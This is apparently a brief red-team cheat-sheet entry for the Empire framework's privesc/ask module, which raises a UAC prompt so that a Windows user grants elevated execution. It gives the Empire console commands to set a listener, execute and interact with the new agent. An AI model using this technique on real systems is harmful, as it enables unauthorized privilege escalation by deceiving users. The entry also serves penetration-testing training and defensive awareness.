



privesc/ask
https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ask.rbIt simply pops up a UAC prompt, asking a user logged in to Windows
for permission to execute a program.
While that might alert a
diligent user, most users will simply click “Yes”. Although there are
other exploits to bypass UAC, Microsoft patches them regularly. But, a
simple “Yes” click by a user works very well, even on a fully patched
Windows box.
(Empire)> usemodule privesc/ask
(Empire)> info
(Empire)> set Listener [custom-listener]
(Empire)> execute


(Empire)> back
(Empire)> interact[new-agent] #in the example above the new agent is D143XBCM
(Empire)> sysinfo
